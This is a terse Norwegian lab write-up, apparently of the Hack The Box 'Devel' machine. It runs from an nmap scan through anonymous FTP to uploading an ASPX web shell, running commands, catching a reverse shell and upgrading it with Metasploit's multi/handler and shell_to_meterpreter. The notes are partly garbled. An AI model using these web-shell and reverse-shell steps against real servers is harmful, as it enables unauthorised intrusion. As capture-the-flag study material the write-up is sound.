 # devel 10.10.10.5

windows maskin

`oot@kali:~# nmap -sS -P0 10.10.10.5`

`Starting Nmap 7.40 ( https://nmap.org ) at 2017-05-26 09:47 EDT`

`Nmap scan report for 10.10.10.5`

`Host is up (0.061s latency).`

`Not shown: 998 filtered ports`

`PORT   STATE SERVICE`

`21/tcp open  ftp`

`80/tcp open  http`

logget inn ftp med anonymous. masse filer. last ned alt med `mget * .` og login med -i som fjerner prompts

http kjører iis7

laster opp et aspx shell [https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd.aspx](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd.aspx)

[http://10.10.10.5](http://10.10.10.5/myshell.aspx)/sh.aspx

kan her kjøre kommandoer. /c net user

User accounts for \

Administrator            babis                    Guest

The command completed with one or more errors.

/c whoami

iis apppool\web

fikk shell med https://www.darknet.org.uk/2014/12/insomniashell-asp-net-reverse-shell-bind-shell/

prøve å escalata nå da

windows 7 6.1 build 7600 

oppgradere fra nc til metasploit til meterpreter

- use mutli/handler

- set LHOST attack-machine

- set LPORT port-as-appropraite

- set payload windows/shell/reverse\_tcp

- exploit'

background session med ctrl z&lt;

use post/multi/manage/shell\_to\_meterpreter



